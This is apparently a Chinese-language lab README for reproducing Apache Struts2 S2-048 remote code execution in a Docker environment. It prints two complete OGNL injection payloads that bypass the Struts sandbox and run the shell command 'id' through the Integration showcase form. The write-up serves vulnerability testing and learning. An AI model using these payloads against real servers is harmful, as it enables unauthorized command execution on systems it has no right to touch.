



# S2-048 远程代码执行漏洞

影响版本: 2.0.0 - 2.3.32

漏洞详情:

 - http://struts.apache.org/docs/s2-048.html
 - http://bobao.360.cn/learning/detail/4078.html
 - http://xxlegend.com/2017/07/08/S2-048%20%E5%8A%A8%E6%80%81%E5%88%86%E6%9E%90/

## 测试环境搭建

```
docker-compose up -d
```

## 漏洞复现

原理详见参考文档，这里只说一下当前环境。

这个环境是直接下载的struts-2.3.32的showcase，部署在tomcat-8.5下。环境启动后，访问`http://your-ip:8080/showcase/`即可查看到struts2的测试页面。

访问Integration/Struts 1 Integration：



触发OGNL表达式的位置是`Gangster Name`这个表单。

输入`${233*233}`即可查看执行结果（剩下两个表单随意填写）：



借用S2-045的沙盒绕过方法，我改了一个POC。将如下POC填入表单`Gengster Name`中，提交即可直接回显命令执行的结果：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())).(#q)}
```



当然，你也可以直接用s2-045的POC（你需要在Burp下进行测试）：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```
